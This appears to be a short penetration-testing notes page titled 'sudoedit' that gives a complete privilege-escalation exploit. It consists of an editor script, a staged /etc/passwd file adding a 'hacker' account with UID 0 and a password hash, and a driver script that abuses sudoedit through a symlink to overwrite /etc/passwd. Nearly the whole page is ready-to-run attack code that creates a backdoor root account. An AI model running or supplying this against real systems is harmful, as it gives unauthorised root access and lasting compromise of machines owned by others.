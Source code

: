 # sudoedit

Based on the following existing solutions:

* [https://unix.stackexchange.com/questions/202929/using-sudoedit-in-a-script-non-interactively](https://unix.stackexchange.com/questions/202929/using-sudoedit-in-a-script-non-interactively)
* [https://shadow-file.blogspot.com/2009/01/how-to-sudoedit-non-interactively.html](https://shadow-file.blogspot.com/2009/01/how-to-sudoedit-non-interactively.html)

{% code title="editor.sh" %}
```text
#!/bin/sh
CAT=/bin/cat
PRE_STAGE="./stage.tmp"

$CAT $PRE_STAGE > "$1";
exit;
```
{% endcode %}

{% code title="stage.tmp \(this is the new /etc/passwd file\)" %}
```text
[...]
hacker:$1$pwn$sX7TFgG1yRswJLX53dwzy1:0:0:root:/root:/bin/bash
```
{% endcode %}

{% code title="sudoedit-passwd.sh" %}
```text
#!/bin/sh
OLD_EDITOR=$EDITOR;

export EDITOR="/bin/sh ./editor.sh";
PRE_STAGE=./stage.tmp;

sudoedit ./layout.html;  # symlinked file for /etc/passwd

export EDITOR=$OLD_EDITOR;

exit;
```
{% endcode %}

```text
bash sudoedit-passwd.sh
```

